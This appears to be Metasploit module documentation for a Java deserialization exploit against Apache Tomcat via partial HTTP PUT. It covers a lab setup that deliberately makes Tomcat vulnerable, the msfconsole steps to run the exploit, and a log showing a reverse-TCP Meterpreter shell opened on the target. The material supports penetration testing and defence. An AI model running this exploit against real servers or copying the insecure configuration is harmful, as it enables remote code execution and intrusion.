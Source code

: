 ## Vulnerable Application
This module exploits a Java deserialization vulnerability in Apache Tomcat's session restoration functionality
that can be exploited with a partial HTTP PUT request to place an attacker controlled deserialization payload in the
<tomcat_root_dir>/webapps/ROOT/ directory. For the exploit to succeed, writes must be enabled for the default servlet,
and `org.apache.catalina.session.PersistentManager` must be configured to use `org.apache.catalina.session.FileStore`.

## Setup
Download Ubuntu Server 24:
`wget https://mirror.0xem.ma/ubuntu-releases/24.04.2/ubuntu-24.04.2-live-server-amd64.iso`

Install ubuntu on your preferred hypervisor, enable SSH during installation. Reboot once installation is complete and SSH into the target.
Download Tomcat and Java:
```
wget https://archive.apache.org/dist/tomcat/tomcat-9/v9.0.90/bin/apache-tomcat-9.0.90.zip
wget https://cdn.azul.com/zulu/bin/zulu8.80.0.17-ca-jdk8.0.422-linux_x64.tar.gz
```

Extract the JDK Archive to the appropriate directory:
```
tar -xvzf zulu8.80.0.17-ca-jdk8.0.422-linux_x64.tar.gz
sudo mkdir -p /opt/java
sudo mv zulu8.80.0.17-ca-jdk8.0.422-linux_x64 /opt/java/zulu8
```

Install `unzip` and extract Tomcat:
```
sudo apt install unzip -y
sudo unzip apache-tomcat-9.0.90.zip -d /opt/
```

Set `CATALINA_HOME` and `JAVA_HOME` also update `PATH` by adding the following to `~/.bashrc`:
```
export CATALINA_HOME=/opt/apache-tomcat-9.0.90
export JAVA_HOME=/opt/java/zulu8
export PATH=$JAVA_HOME/bin:$PATH
```

Apply changes:
```
source ~/.bashrc
```

Change Tomcat permissions:
```
sudo chown -R msfuser:msfuser /opt/apache-tomcat-9.0.90
sudo chmod -R +x /opt/apache-tomcat-9.0.90/bin
```

Edit `conf/web.xml` and update the default servlet with the following:
```
    <servlet>
        <servlet-name>default</servlet-name>
        <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
        <init-param>
            <param-name>debug</param-name>
            <param-value>0</param-value>
        </init-param>
        <init-param>
            <param-name>listings</param-name>
            <param-value>false</param-value>
        </init-param>
        <init-param>
          <param-name>readonly</param-name>
          <param-value>false</param-value>
        </init-param>
        <load-on-startup>1</load-on-startup>
    </servlet>
```

Edit `conf/content.xml` and add the following inside the pre-existing `<Context>` tags:
```
    <Manager className="org.apache.catalina.session.PersistentManager">
      <Store className="org.apache.catalina.session.FileStore" />
    </Manager>
```

Create the following directory inside the tomcat root directory:
```
mkdir -p webapps/ROOT/WEB-INF/lib
cd ./webapps/ROOT/WEB-INF/lib
```

Download the following dependencies:
```
wget https://repo1.maven.org/maven2/commons-logging/commons-logging/1.2/commons-logging-1.2.jar
wget https://repo1.maven.org/maven2/commons-beanutils/commons-beanutils/1.9.4/commons-beanutils-1.9.4.jar
wget https://repo1.maven.org/maven2/commons-collections/commons-collections/3.1/commons-collections-3.1.jar
```

Start the vulnerable Tomcat instance:
```
cd /opt/apache-tomcat-9.0.90/bin
./startup.sh
```

## Options

### GADGET
The desired ysoserial gadget to use to obtain RCE.

## Verification Steps
1. Start msfconsole
2. `use multi/http/tomcat_partial_put_deserialization`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set RPORT <TARGET_PORT>`
5. `set GADGET <YSOSERIAL_GADGET>`
6. `set LHOST eth0`
7. `check`
8. `exploit`

## Scenarios

### Apache Tomcat 9.0.90, jdk8.0.422 running on Ubuntu Server 24. Target: Linux Command

```
msf6 > use multi/http/tomcat_partial_put_deserialization
[*] Using configured payload cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(multi/http/tomcat_partial_put_deserialization) > set rport 8080
rport => 8080
msf6 exploit(multi/http/tomcat_partial_put_deserialization) > set rhost 172.16.199.130
rhost => 172.16.199.130
msf6 exploit(multi/http/tomcat_partial_put_deserialization) > set gadget CommonsCollections6
gadget => CommonsCollections6
msf6 exploit(multi/http/tomcat_partial_put_deserialization) > check
[!] This exploit may require manual cleanup of '../webapps/ROOT/YLNKdGSIcB.session' on the target
[+] 172.16.199.130:8080 - The target is vulnerable.
msf6 exploit(multi/http/tomcat_partial_put_deserialization) > run
[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Executing Unix Command for cmd/unix/python/meterpreter/reverse_tcp
[*] Utilizing CommonsCollections6 deserialization chain
[+] Uploaded ysoserial payload (imNsIsZCCC.session) via partial PUT
[*] Attempting to deserialize session file..
[+] 500 error response usually indicates success :)
[*] Sending stage (24772 bytes) to 172.16.199.130
[+] Deleted ../webapps/ROOT/pAdshcNMRO.session
[+] Deleted ../webapps/ROOT/imNsIsZCCC.session
[*] Meterpreter session 6 opened (172.16.199.1:4444 -> 172.16.199.130:44562) at 2025-04-02 13:34:50 -0700

meterpreter > getuid
Server username: msfuser
meterpreter > sysinfo
Computer        : msfserver
OS              : Linux 6.8.0-57-generic #59-Ubuntu SMP PREEMPT_DYNAMIC Sat Mar 15 17:40:59 UTC 2025
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter >
```
